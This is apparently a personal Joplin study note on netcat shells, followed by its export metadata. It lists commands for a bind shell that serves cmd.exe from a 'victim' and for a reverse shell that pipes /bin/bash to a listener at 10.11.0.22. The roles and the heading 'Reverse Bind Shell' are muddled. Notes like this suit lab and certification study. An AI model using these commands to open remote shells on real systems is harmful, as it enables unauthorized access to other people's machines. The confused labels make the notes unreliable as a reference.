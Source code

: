 Netcat

<ins>Netcat</ins>

1\. Bind Shell

On Victim client

> nc -nlvp 4444 -e cmd.exe

On Kali attacker

> nc -nv 10.11.0.22 4444

2\. Reverse Bind Shell

On the Victim client:

> nc -nlvp 4444

On Kali: Obtain IP of victim-

> ip address show eth0 | grep inet \[Linux\]
> ipconfig \[Windows

Connect

> nc -nv 10.11.0.22 4444 -e /bin/bash

id: 5fbdf13e52c24efbad665b0fec331d05
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T06:48:04.935Z
updated_time: 2022-01-14T06:52:52.430Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 821071392222
user_created_time: 2022-01-14T06:48:04.935Z
user_updated_time: 2022-01-14T06:52:52.430Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1